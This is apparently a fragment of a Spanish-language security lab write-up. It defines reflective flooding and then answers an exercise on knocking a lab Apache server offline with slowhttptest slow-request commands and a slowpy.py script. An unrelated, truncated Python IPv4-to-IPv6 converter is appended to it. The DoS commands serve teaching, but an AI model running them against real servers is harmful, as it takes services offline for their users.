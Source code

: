 **Reflecting flooding attack:** en un ataque de inundación reflexiva, un atacante utiliza servidores intermediarios para amplificar su ataque. El atacante envía solicitudes falsificadas a los servidores intermedios, que luego retransmiten solicitudes amplificadas al objetivo real.

### n) Ataque un servidor apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS. Utilice herramientas DoS que trabajen a nivel de aplicación (capa 7) ¿Cómo podría proteger dicho servicio ante este tipo de ataque? ¿Y si se produjese desde fuera de su segmento de red? ¿Cómo podría tratar de saltarse dicha protección?
+ slowhttptest -c 1000 -H -g -i 10 -r 200 -t GET -u http://10.11.49.49 -x 24 -p 3
+ slowhttptest -c 1000 -B -g -i 110 -r 200 -s 8192 -t FAKEVERB -u http://10.11.49.49 -x 10 -p 3
+ slowhttptest -c 1000 -g -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u  http://10.11.49.49 -p 3
+ python3 slowpy.py 10.11.49.49
```
import re

def ipv4_to_ipv6(ipv4_address):
    # Split the IPv4 address into octets
    octets = ipv4_address.split('.')

    # Convert each octet to hexadecimal and format it for IPv6
    ipv6_segments = [format(int(octet), 'x').zfill(2) for octet in octets]

    # Insert colons between segments and add IPv6 prefix
    ipv6_address = '2002:{}:{}::1'.format(ipv6_segments[0] + ipv6_segments[1], ipv6_segments[2] + ipv6_segments[3])

    return ipv6_address

def convert_ipv4_to_ipv6(file_path):
    with open(file_path, 'r') as file:
        # Read the content of the file
        content = file.read()

        # Use regex to extract IPv4 addresses
        ipv4_addresses = re.findall(r'\b(?:\d{1,3}\.){3}\d{1,3}\b', content)

        # Convert each IPv4 address to IPv6
        ipv6_addresses = [ipv4_to_ipv6(ipv4) for ipv4 in ipv4_addresses]

        return ipv6_addresses

if __name__ == "__main__":
    # Replace 'ipv4.txt' with the actual path to your file
    file_path = 'ipv4.txt'

    # Get the IPv6 addresses
    ipv6_addresses = convert_ipv4_to_ipv6(file_path)

    # Print the results
    print("IPv6 Addresses:")
    for ipv6 in ipv6_addresses:
```
